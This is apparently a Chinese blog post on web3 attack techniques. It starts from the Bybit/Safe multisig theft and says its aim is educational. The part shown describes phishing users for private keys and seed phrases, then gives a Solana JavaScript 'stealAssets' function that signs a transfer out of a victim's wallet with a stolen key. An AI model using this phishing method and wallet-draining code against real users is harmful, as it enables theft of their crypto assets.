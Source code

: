 ```yaml
---
title: 我是一个区块链黑客（第一篇）
tags: [区块链, web3, 黑客]
categories:
  - [区块链]
date: 2025-03-01
---
```


近期 Bybit的多签冷钱包被黑，损失约14.6亿美元，导致用户资产被盗，这事闹得沸沸扬扬，这次的事件给 web3 社区带来了很多的思考。经调查，Safe 官方声明指出，北韩骇客组织 Lazarus Group 透过入侵一名 Safe 开发者的设备，将恶意程式码注入前端网站「app.safe.global」，成功绕过多重签名验证，并伪装成正常交易提交批准。Verichains 调查报告显示，该恶意程式码具有针对性，只有在特定条件下 (如操作 Bybit 帐户时) 才会触发，以避免影响普通用户，达到掩人耳目的效果。Safe 团队强调，经外部安全研究人员一致确认，**Safe 的智能合约本身并无漏洞，问题完全出在开发者设备遭入侵。**


这事情挺离谱的，为啥一个开发者就可以不经过 review 直接将明显有问题的代码发布到线上，多签具体是如何绕过的等等。退一步来说，我们就算姑且认可这个结论。但是本次攻击暴露了多签钱包的技术性弱点、以及供应链攻击的致命风险，更让 Safe 作为业界主流安全解决方案的可靠性遭受质疑。此事件揭示了供应链攻击对加密货币生态的威胁，即便智能合约安全，前端与批准环节仍是弱点（这我在之前的区块链钱包中有提到过）。

今天我们就来聊一聊 web3 黑客攻击的一些常见手段。我会以教育和安全意识提升为目的，从理论和技术的角度探讨区块链黑客可能用来窃取用户资产的常见方法，并提供相应的代码示例。这些方法基于公开已知的攻击方式，主要用于展示漏洞如何被利用，以及如何防范。我不会提供任何实际可直接用于非法行为的代码，而是专注于技术原理的讲解。



在区块链世界中，窃取用户资产的常见手法包括私钥泄露、钓鱼攻击、智能合约漏洞利用和交易篡改等。以下我将以“获取用户私钥”和“利用智能合约漏洞”为例，结合伪代码或简化代码进行说明。


### 方法 1：通过钓鱼攻击获取私钥
**原理**：黑客通过伪造网站、恶意软件或社交工程，诱导用户泄露私钥或助记词。一旦获取私钥，黑客可以完全控制用户的钱包并转移资产。

**攻击步骤**：
1. 创建一个伪装成合法钱包或交易所的钓鱼网站。
2. 诱导用户输入私钥或助记词（如假装“验证身份”）。
3. 使用窃取的私钥签名交易，转移资产。

**伪代码示例（基于 Solana）**：
```javascript
const { Keypair, Transaction, SystemProgram, Connection } = require("@solana/web3.js");

// 假设黑客已通过钓鱼网站获取用户私钥
const stolenPrivateKey = Uint8Array.from([/* 用户私钥字节数组 */]);
const hackerWallet = Keypair.fromSecretKey(stolenPrivateKey);
const victimPubkey = hackerWallet.publicKey;
const hackerPubkey = Keypair.generate().publicKey; // 黑客自己的地址

// 连接 Solana 网络
const connection = new Connection("https://api.mainnet-beta.solana.com", "confirmed");

async function stealAssets() {
  // 创建转账交易
  const transaction = new Transaction().add(
    SystemProgram.transfer({
      fromPubkey: victimPubkey,
      toPubkey: hackerPubkey,
      lamports: 1000000000, // 转移 1 SOL
    })
  );

  // 使用窃取的私钥签名交易
  const signature = await connection.sendTransaction(transaction, [hackerWallet]);
  await connection.confirmTransaction(signature);

  console.log("资产已转移，交易签名:", signature);
}

stealAssets().catch(console.error);
```